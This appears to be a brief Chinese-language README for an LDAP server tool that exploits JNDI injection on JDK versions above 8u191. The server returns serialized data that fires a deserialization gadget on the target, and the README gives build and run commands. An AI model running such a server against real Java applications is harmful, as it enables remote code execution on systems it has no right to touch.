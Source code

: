 # LdapServer
JNDI利用，用于高版本的JDK(>8u191)。利用LDAP返回序列化数据，触发本地Gadget。

```
mvn package

java -jar target/jndi-all.jar 127.0.0.1 8888 1389
```
